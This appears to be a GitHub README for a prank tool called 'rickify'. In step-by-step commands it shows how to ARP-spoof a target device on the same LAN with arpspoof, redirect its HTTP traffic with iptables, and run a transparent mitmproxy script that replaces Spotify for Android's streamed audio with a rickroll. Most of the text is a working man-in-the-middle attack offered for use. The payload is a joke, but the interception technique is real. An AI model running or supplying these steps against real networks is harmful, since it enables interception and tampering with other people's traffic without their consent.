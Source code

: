 ![](https://github.com/kjempelodott/rickify/blob/master/f9z.png)

The Spotify app for Android streams the first few seconds of a track over HTTP. Being on the same LAN as your target, this can easily be pwned. It turns out the Spotify app for Android will happily accept and play any Ogg-file.

**Notes:**
* This will not work with IPv6
* This will not work for already cached/downloaded tracks

## We know the game and we're gonna play it

Install the required tools:

```
apt-get install dsniff
pip install mitmproxy
```

## You know the rules and so do I

Turn on port forwarding and forward HTTP traffic to port 8080:

```
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -I PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
```

## A full commitment's what I'm thinking of

Identify the gateway and the target IP address. Use Wireshark or whatever. Then trick your target device into sending all traffic to you instead of the gateway:

```
arpspoof -t [target ip] [gateway ip] # e.g. -t 192.168.1.101 192.168.1.1
```

## You wouldn't get this from any other guy

Get a copy of *Never Gonna Give You Up* in Ogg-format. You probably have to change the filename in line 3 in *rickroll.py*. Setup a transparent proxy on port 8080:

```
mitmproxy -T -p 8080 -s rickroll.py
```